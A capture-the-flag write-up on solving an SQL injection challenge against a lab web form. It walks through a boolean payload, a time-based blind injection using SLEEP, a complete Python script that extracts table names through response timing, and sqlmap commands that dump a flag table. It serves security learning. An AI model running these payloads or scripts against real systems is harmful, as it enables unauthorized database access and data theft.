 # SQL Injection

For this challenge, it asks us to do a sql injection to a form 
## Web First Look :

![image-20240824230451725](images/20.png)

```mysql
$query_string = "SELECT * FROM melody_bu_shi_ji_lao WHERE id = " . $_GET['questionid'];
```

After seing this, I'm testing the most basic injection that is **1 or 1=1** and It printed out all 0-7 output

![image-20240824230451725](images/21.png)

For the next step I then try to inject the time base attack and it work out with this format

```python
1 AND IF(ASCII(SUBSTRING(database(), 1, 1)) = 97, SLEEP(5), 0)
```

and it waited for 5 seconds, meaning the form is vulnerable to time based attacks, next step is to use python to retrieve the name of the database

```python
import requests
import time

# URL of the vulnerable page
url = "http://10.214.160.13:10002/"

# Set the parameter name that is vulnerable
param_name = "questionid"

# Function to extract a single character at a specific position
def extract_character(position, query):
    for ascii_value in range(32, 128):  # ASCII range for printable characters
        # Craft the payload to extract the character
        payload = f"1 AND IF(ASCII(SUBSTRING(({query}), {position}, 1)) = {ascii_value}, SLEEP(5), 0)"
        
        # Prepare the data for the GET request
        params = {param_name: payload}

        # Record the start time
        start_time = time.time()

        # Send the GET request
        response = requests.get(url, params=params)

        # Calculate the elapsed time
        elapsed_time = time.time() - start_time

        # Check if the elapsed time indicates a successful extraction
        if elapsed_time > 4:  # Adjust threshold if necessary
            return chr(ascii_value)
    
    return None

# Function to extract a table name
def extract_table_name(offset):
    query = f"SELECT table_name FROM information_schema.tables WHERE table_schema='aaa_web2' LIMIT 1 OFFSET {offset}"
    table_name = ""
    for position in range(1, 50):  # Assuming table names are less than 50 characters
        character = extract_character(position, query)
        if character:
            table_name += character
            print(f"Extracted character at position {position}: {character}")
        else:
            print(f"No more characters found at position {position}. Extraction complete.")
            break
    return table_name

# Extract all table names
offset = 0
while True:
    table_name = extract_table_name(offset)
    if table_name:
        print(f"Extracted table name: {table_name}")
        offset += 1
    else:
        print("No more tables found.")
        break

```

After running this code, we can see the database name

![image-20240824230451725](images/22.png)

data base name is **aaa_web2**, let's use sql map to retreive the data inside the database, the website gives us clues where the flag is hidden inside the flag_is_here table, 

so the command should be 

```bash
sqlmap -u "http://10.214.160.13:10002/?questionid=1" -D aaa_web2 -T flag_is_here --columns
```

after running this command on terminal, 

![image-20240824230451725](images/23.png)

We extracted 3 column, and now let's extract the column value of flag

```bash
sqlmap -u "http://10.214.160.13:10002/?questionid=1" -D aaa_web2 -T flag_is_here -C flag --dump
```

![image-20240824230451725](images/24.png)

And we receive the flag.

**flag: AAA{welc0me_to_AAA_Congratu1ationS_qq_group_********}**   ******** is hidden privacy purpose
